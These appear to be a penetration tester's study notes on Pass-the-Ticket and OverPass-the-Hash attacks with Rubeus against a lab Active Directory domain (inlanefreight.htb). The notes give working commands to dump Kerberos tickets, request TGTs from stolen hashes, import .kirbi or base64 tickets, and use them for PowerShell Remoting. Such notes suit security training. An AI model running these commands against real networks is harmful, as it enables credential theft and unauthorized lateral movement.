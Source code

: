 Attacks: #PtT 
# Modules
## Dump Kerberos Ticket Data
```cmd-session
> Rubeus.exe dump /nowrap
```
`dump` to print the ticket in base64 (easy copy-paste)

# Pass the Key / OverPass the Hash
Use the module `asktgt` with username, domain, and hash (`/rc4`, `/aes128`, `/aes256`, or `/des`). The hash can be collected using [[Mimikatz]] `sekurlsa::ekeys`.
```cmd-session
> Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:<AES-KEY> /nowrap
```

Instead of retrieving the ticket in base64, we could use the flag `/ptt` to submit the ticket (TGT or TGS) to the current logon session.
```cmd-session
> Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:<RC4-HASH> /ptt
```
## Alternate Methods
1. Using harvested keys in `.kirbi`
We can import the ticket (created using Mimikatz [[Mimikatz#Export Tickets|Export Tickets]] module) into the current session.
```cmd-session
> Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
```
2. Pass base64 ticket
	- Convert `.kirbi` to Base64 Format
```powershell-session
PS > [Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))
```
Now we can pass this base64 instead of filename
```cmd-session
> Rubeus.exe ptt /ticket:<BASE64-TICKET>
```
>**Note:** Mimikatz requires administrative rights for Pass the Key/OverPass the Hash attacks, while Rubeus doesn't.

# Powershell Remoting with PtT
The option `createnetonly` creates a sacrificial process/logon session ([Logon type 9](https://eventlogxp.com/blog/logon-type-what-does-it-mean/)) which is hidden by default, but can be displayed using `/show` (equivalent of `runas /netonly`). This prevents the erasure of existing TGTs for the current logon session.
```cmd-session
> Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
```
This should open a new CMD window from where we can execute Rubeus to request a new TGT, using `ptt`, to import the ticket into the current session and connect to the DC using PS Remoting.
```powershell
> Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:<AES-KEY> /ptt
> powershell
PS > Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:<AES-KEY> /ptt
```